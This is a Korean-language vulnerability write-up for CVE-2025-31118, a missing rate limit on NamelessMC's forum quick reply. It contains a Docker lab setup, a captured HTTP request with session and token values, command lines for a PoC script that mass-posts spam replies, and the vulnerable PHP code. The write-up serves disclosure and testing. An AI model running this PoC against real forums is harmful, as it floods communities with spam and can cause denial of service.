




# CVE-2025-31118

> 화이트햇 스쿨 3기 - [이정호 (@yuhano)](https://github.com/yuhano)
> 
> 취약점 제보 및 PoC 개발을 모두 직접 수행하였습니다.


## 요약

- NamelessMC는 Minecraft 커뮤니티를 위한 무료 오픈소스 웹사이트 및 포럼 소프트웨어이다.
- `view_topic.php` 파일의 취약점으로 인해 하나의 토픽에 무한히 quick reply을 작성하거나, 토픽 번호만 변경하여 모든 게시글에 대량의 quick reply을 작성할 수 있다.
- v2.1.3 이전 버전에서 취약점이 발견되었으며, v2.2.0 버전에서 패치되었다.

## 참고자료

https://github.com/NamelessMC/Nameless/security/advisories/GHSA-jhvp-mwj4-922m

## 환경설정

1. `docker-compose.yaml` 폴더와 동일한 위치에 다음과 같은 명령어 실행
    
    ```python
    mkdir web
    chown -R 33:33 web
    ```
    
2. `docker compose up -d` 를 실행하여 테스트 환경을 실행.
3. 초기 설정 파일을 docker 로 이동 
    
    ```python
    docker cp ./contents/config.php docker_hw_test-php-1:/data/core/config.php
    docker cp ./contents/modules_enable.php  docker_hw_test-php-1:/data/modules_enable.php
    ```
    
4. http://localhost:8080/modules_enable.php 에 접속하여 초기 설정 완료 
5. http://localhost:8080 에 접속하여 topic 글이 정상적으로 보이는지 확인

### 포럼 비밀번호

- ID: a@gmail.com
- PW: nameless

## POC

단일 Topic에 대해 다량의 댓글을 작성하거나, 여러 Topic에 걸쳐 스팸 댓글을 대량으로 작성할 수 있는 POC 코드이다.

### PHPSESSID 및 TOKEN 획득

포럼 로그인 이후, topic 작성을 캡쳐하여 PHPSESSID 및 TOKEN 획득한다. 

```python
POST /panel/core/modules/?action=enable&m=2 HTTP/1.1
Host: localhost:8080
Content-Length: 38
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="135", "Not-A.Brand";v="8"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: ko-KR,ko;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,images/image/avif,images/image/webp,images/image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/panel/core/modules/
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=6c5f097a53e7cba34d09ef9f3f167835; nmc_panel_theme=light; nl2_adm=o8EMh796p3iL0zXUP3R4WADHgjqgNVSxkNSQxTRkbd4
Connection: keep-alive

token=e8d260ccd5c5c17f0cae05150fc8af10
```

### POC  실행방법

1. **싱글 모드** (하나의 Topic에 여러 번 댓글 작성) 

```bash
python poc.py --mode single --token YOUR_TOKEN --phpsessid YOUR_PHPSESSID --topic-id 3 --count 50
```

→ 3번 Topic에 50개의 Quick Reply 작성

**2. 멀티 모드** (여러 Topic에 각각 한 번씩 댓글 작성)

```bash
python poc.py --mode multi --token YOUR_TOKEN --phpsessid YOUR_PHPSESSID --start-id 1 --end-id 100
```

→ 1번 ~ 100번 Topic에 각각 1개의 Quick Reply 작성

### 확인방법

- 싱글 모드
    - `http://localhost:8080/forum/topic/{topic-id}` 접속 → 하단에 `"Quick reply spam message {i}"`들이 쌓이는 것을 확인
- 멀티 모드
    - `http://localhost:8080/forum/view/{forum-id}` 접속 → 각 Topic에 댓글이 생성된 것을 확인

## 결과

스크립트 실행 화면






실제 댓글 생성 완료 화면:





## 취약점 상세 설명

`view_topic.php` 파일의 Quick Reply 기능은 댓글 작성 시 스팸 방지나 쿨다운(cooldown) 검증을 수행 하지 않는다. 

이로 인해 인증된 사용자가 **수십~수백 개의 댓글을 빠르게 연속 작성**할 수 있으며, 이로 인하여 DOS을 발생시킬 수 있다. 

```php
// Quick reply
if (Input::exists()) {
    if (!$user->isLoggedIn() || !$can_reply) {
        Redirect::to(URL::build('/forum'));
    }
    if (Token::check()) {
        $validate = Validate::check($_POST, [
            'content' => [
                Validate::REQUIRED => true,
                Validate::MIN => 2,
                Validate::MAX => 50000
            ]
        ]);
    }
}
```

## 정리

해당 취약점을 통해 인증된 사용자가 특정 Topic에 무제한으로 댓글을 작성하거나, 여러 Topic에 대량으로 댓글을 작성할 수 있는 문제가 있음을 확인했다. 이로 인해 서버 자원 소모 및 서비스 장애가 발생할 수 있으므로, **v2.2.0 버전 이상으로의 업데이트**가 필요하다.
